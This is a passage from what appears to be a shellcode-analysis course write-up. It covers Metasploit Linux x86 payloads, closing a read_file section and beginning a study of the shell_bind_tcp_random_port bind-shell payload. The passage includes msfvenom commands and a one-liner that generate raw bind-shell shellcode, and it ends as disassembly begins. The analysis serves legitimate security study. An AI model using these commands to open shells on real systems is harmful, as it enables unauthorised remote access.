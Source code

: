 - EBX = 0 => Status 0 will represent the program finished correctly in this case.



### Update/correct NASM file

Now we can update the nasm code deleting the unused opcodes and adding the string we found.

![Screenshot](https://raw.githubusercontent.com/ricardojoserf/slae32/master/a5_Shellcode_Functionality/images/read_file/24.png)

Finally we can compile the nasm file and check it works correctly:

![Screenshot](https://raw.githubusercontent.com/ricardojoserf/slae32/master/a5_Shellcode_Functionality/images/read_file/25.png)


----------------------------------------------------


## 5.3 Payload *linux/x86/shell_bind_tcp_random_port*

### Check options
```bash
msfvenom -p linux/x86/shell_bind_tcp_random_port --list-options
```

![Screenshot](https://raw.githubusercontent.com/ricardojoserf/slae32/master/a5_Shellcode_Functionality/images/randbind/1.png)

![Screenshot](https://raw.githubusercontent.com/ricardojoserf/slae32/master/a5_Shellcode_Functionality/images/randbind/2.png)

There is not any basic option in this case.

For this study we will use the basic command:

```bash
msfvenom -p linux/x86/shell_bind_tcp_random_port --platform=Linux -a x86 -f c
```

### One-liner for getting shellcode 

The fastest way to get the shellcode in my case was using two pipes, one with 'sed' and a second one with 'paste' command:

```bash
msfvenom -p linux/x86/shell_bind_tcp_random_port --platform=Linux -a x86 -f c | grep '"' | sed -e 's/\"//g' | paste -sd "" -
```

Using it, we get the shellcode we will use for the study of the payload:

![Screenshot](https://raw.githubusercontent.com/ricardojoserf/slae32/master/a5_Shellcode_Functionality/images/randbind/3.png)



### Ndisasm

Before studying the syscalls, the .nasm code is extracted using Ndisasm:
